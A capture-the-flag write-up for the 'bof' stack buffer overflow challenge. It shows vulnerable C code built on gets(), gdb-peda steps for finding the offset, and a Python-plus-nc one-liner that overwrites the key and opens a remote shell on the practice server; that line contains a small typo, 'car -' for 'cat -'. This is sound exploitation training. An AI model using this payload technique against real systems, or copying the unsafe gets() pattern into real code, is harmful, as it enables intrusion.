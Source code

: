 # **bof**
First, we got the source code with .ELF file from the website.

```shell=
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

As a 32-bit ELF, you need to install plugin if you're in 64-bit system.
```
sudo apt-get install  lib32ncurses5 lib32z1
# ubuntu 18
sudo apt-get install ia32-libs
# ubuntu 16
```

![](https://i.imgur.com/my4Pb5O.png)
![](https://i.imgur.com/nhWAWPJ.png)

Cuz to bufferoverflow type's question, we should install a plugin to gdb, it may help a lot.

`git clone https://github.com/longld/peda.git ~/peda`

`echo "source ~/peda/peda.py" >> ~/.gdbinit`

![](https://i.imgur.com/0qX7YbU.png)

Then, change the .ELF you downloaded from the website by `chmod 777 bof`.(if your compiler settings is not the same to this question)

Starting trace code with `gdb ./bof`.

First, set a break point by `b main` to stop auto running.


![](https://i.imgur.com/I2W9xvB.png)

Insert `r` to start running the program.

![](https://i.imgur.com/6fiiiVa.png)

Using `n` which means "next" to line by line running this code.

![](https://i.imgur.com/B5qAK9B.png)

Using `s` which means "step" to step into the funtion, if you keep insert `n` then it will bypass this function's detail.

![](https://i.imgur.com/hgSsF18.png)

In this function which call by main, is calling IO.GET on line 35.

Before you step on it, you should create your own offset to determind the location of the overwritable point.

`pattern create 100` may help.
`100` is the value for nobody guess, but we sure that it should bigger than the distance from get point to `key` of `void func(int key)`.

You can also see the compare command just two more lines later. It means `key` are stored in `ebp+0x8`.

Before you overwrite it, the value of `ebp+0x8` must be `0xdeadbeef`.

![](https://i.imgur.com/6R4blpO.png)

After you step on it, it will require you to insert your offset. Just paste to the shell.

![](https://i.imgur.com/E9cZx5P.png)

After you paste your offset into this process, you can check what's storing in `ebp+0x8` now by `telescope $ebp+0x8 1`.

Now, you see `AAGAACAA` is the key offset we overwrite on `0xdeadbeef`.

![](https://i.imgur.com/cHUzfwN.png)

Using `pattern offset AAGA` to find the offset location.

After all, type `q` to exit the gdb.

![](https://i.imgur.com/fcmy8od.png)

Using python to generate the payload and inject it to server.

`(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; car -) | nc pwnable.kr 9000`

Becareful that stack is struct in DESC order, `cafebabe` should turn to be `bebafeca`.

![](https://i.imgur.com/0nGXESp.png)

Then, you'll get a shell return.

![](https://i.imgur.com/1qUJW6E.png)

You can check `id` and then `ls` it.

![](https://i.imgur.com/JUvQZ09.png)

Congratuz! `cat` the flag. Bada bing bada boom.

